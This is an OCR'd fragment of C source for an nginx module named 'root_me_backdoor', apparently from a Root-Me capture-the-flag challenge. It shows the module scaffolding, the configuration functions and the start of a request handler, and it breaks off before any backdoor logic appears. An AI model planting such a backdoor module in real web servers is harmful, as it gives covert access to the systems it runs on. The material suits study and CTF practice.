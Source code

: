 ```bash
};

static ngx_http_module_t ngx_http_root_me_backdoor_module_ctx = {
    NULL,                                  /* preconfiguration */
    NULL,                                  /* postconfiguration */
    NULL,                                  /* create main configuration */
    NULL,                                  /* init main configuration */
    NULL,                                  /* create server configuration */
    NULL,                                  /* merge server configuration */
    ngx_http_root_me_backdoor_create_conf, /* create location configuration */
    ngx_http_root_me_backdoor_merge_conf   /* merge location configuration */
};

ngx_module_t ngx_http_root_me_backdoor_module = {
    NGX_MODULE_V1,
    &ngx_http_root_me_backdoor_module_ctx, /* module context */
    ngx_http_root_me_backdoor_commands,    /* module directives */
    NGX_HTTP_MODULE,                       /* module type */
    NULL,                                  /* init master */
    NULL,                                  /* init module */
    NULL,                                  /* init process */
    NULL,                                  /* init thread */
    NULL,                                  /* exit thread */
    NULL,                                  /* exit process */
    NULL,                                  /* exit master */
    NGX_MODULE_V1_PADDING
};

static void *ngx_http_root_me_backdoor_create_conf(ngx_conf_t *cf) {
    ngx_http_root_me_backdoor_conf_t *conf;

    conf = ngx_pcalloc(cf->pool, sizeof(ngx_http_root_me_backdoor_conf_t));
    if (conf == NULL) {
        return NGX_CONF_ERROR;
    }

    conf->backdoor = NGX_CONF_UNSET;
    return conf;
}

static char *ngx_http_root_me_backdoor_merge_conf(ngx_conf_t *cf, void *parent, void *child) {
    ngx_http_root_me_backdoor_conf_t *prev = parent;
    ngx_http_root_me_backdoor_conf_t *conf = child;

    ngx_conf_merge_value(conf->backdoor, prev->backdoor, 0);
    return NGX_CONF_OK;
}

static char *ngx_http_root_me_backdoor(ngx_conf_t *cf, ngx_command_t *cmd, void *conf) {
    ngx_http_core_loc_conf_t *clcf;

    clcf = ngx_http_conf_get_module_loc_conf(cf, ngx_http_core_module);
    clcf->handler = ngx_http_root_me_backdoor_handler;

    ngx_conf_set_flag_slot(cf, cmd, conf);
    return NGX_CONF_OK;
}

static ngx_int_t ngx_http_root_me_backdoor_handler(ngx_http_request_t *r) {
    ngx_http_root_me_backdoor_conf_t *conf;
    conf = ngx_http_get_module_loc_conf(r, ngx_http_root_me_backdoor_module);

    if (!conf->backdoor) {
```